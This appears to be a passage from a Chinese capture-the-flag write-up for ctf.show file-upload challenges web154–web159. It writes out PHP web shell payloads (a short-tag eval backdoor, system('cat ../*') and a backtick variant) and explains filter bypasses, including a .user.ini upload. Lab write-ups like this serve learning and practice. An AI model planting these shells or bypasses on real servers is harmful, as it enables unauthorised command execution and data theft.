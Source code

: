 ```
http://1db86d8a-c57c-4b7f-b60c-2efd317295cc.challenge.ctf.show/upload/index.php
```

![image-20230726103638336](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230726103638336.png)

当然当我们再次访问/upload时：

![image-20230726103906855](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230726103906855.png)

### [web154]短标签

上题思路可解

如果带木马的不行，然后就更换短标签一个个试

```php
<?= eval($_POST[1]);?>
```

web155(内容过滤php)同上

### [web156]`[]`过滤

 过滤了文件内的`[]`,可以改成`{}`来绕过

![image-20230726114212624](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230726114212624.png)

### [web157]bypass

经测试，对文件内容过滤了 `php`、`[`、`{`、 `;`

上传`.user.ini`

 php 最后的语句也可以不加分号的，前提是得有 `?>`结束标志。

修改图片马的内容

```
<?=system('ls ../')?>
```

通过ls查看flag文件的位置，写入之后访问`/upload/index.php`查看回显

使用cat或tac读取信息

```
<?=system('cat ../*')?>
```

![image-20230726150235091](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230726150235091.png)

web158思路同上

web159过滤了括号`()`,我们可以用反引号来代替`system()`

```
<?=`cat ../*`?>
```
